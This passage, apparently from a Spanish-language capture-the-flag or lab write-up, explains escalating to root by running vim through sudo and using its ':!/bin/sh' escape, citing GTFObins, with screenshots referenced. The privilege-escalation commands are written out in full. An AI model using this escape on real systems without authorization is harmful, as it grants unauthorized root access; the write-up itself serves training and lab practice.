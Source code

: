 El binario **/usr/bin/vim** puede ejecutarse como root. Con la ayuda de la web **GTFObins**, podemos escalar privilegios ejecutando:
```
sudo /usr/bin/vim
```

Dentro de vim, usamos el comando `:!/bin/sh` para obtener una shell como root.
<p align="center">
    <img src="../img/Pasted_image_20241207221412.png" width="500">
</p>




Ejecutamos el programa
```
sudo /usr/bin/vim
```
<p align="center">
    <img src="../img/Pasted_image_20241207221709.png" width="500">
</p>
